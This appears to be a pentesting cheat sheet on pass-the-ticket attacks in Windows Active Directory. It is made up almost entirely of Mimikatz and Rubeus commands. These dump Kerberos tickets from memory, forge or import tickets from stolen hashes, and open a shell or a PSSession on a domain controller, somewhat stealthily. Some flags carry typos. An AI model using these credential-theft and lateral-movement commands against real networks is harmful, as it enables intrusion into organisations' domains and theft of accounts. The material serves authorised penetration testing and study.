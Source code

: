 -- -
PtT attack from a windows host. Usually for #AD pentesting. 
### Get a ticket
The first step is to get a valid TGT or TGS ticket to pass around. In order to do this, you will need local admin privs on the compromised host. 
#### Mimikatz
```powershell
mimikatz.exe
privilege::debug
sekurlsa::tickets /export 
exit
dir *.kirbi # you should see one or more kirbi files
```
*Note: computer accounts end with a $ symbol, while user tickets have the username@service-domain.local.kirbi*
#### Rubeus
```powershell
# will dump out tickets to stdout
Rubeus.exe dump /nowrap
```
### Pass the Ticket
#### Rubeus
```bash
# Asks for a ticket then imports ticket to current session
# use raw hash
Rubeus.exe asktgt /domain:<domain> /user:<user> /rc4:<hash> /ptt

# use kirbi file
Rubeus.exe ptt /ticker:<path to kirbi file> 

# user base64 encoded hash
Rubeus.exe ptt /ticker:<base64 str>
```

Remote into another machine afterwards, somewhat stealthily
```bash
# open sacrificial shell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show 

# Pass the Ticket
Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<hash> /ptt

# remote into another machine
powershell
Enter-PSSession -ComputerName DC01
```
#### mimikatz
```bash
mimikatz.exe
privilege::debug
kerberos::ptt "<path to kirbi file>"

# get shell by exiting mimikatz 
exit

# or by opening a new cmd prompt w/ ticket imported to it
misc::cmd
```

Remote into another machine afterwards
```bash
mimikatz.exe
privilege::debug 
kerberos::ptt "<path to kirbi file>"
exit
powershell
Enter-PSSession -ComputerName DC01
```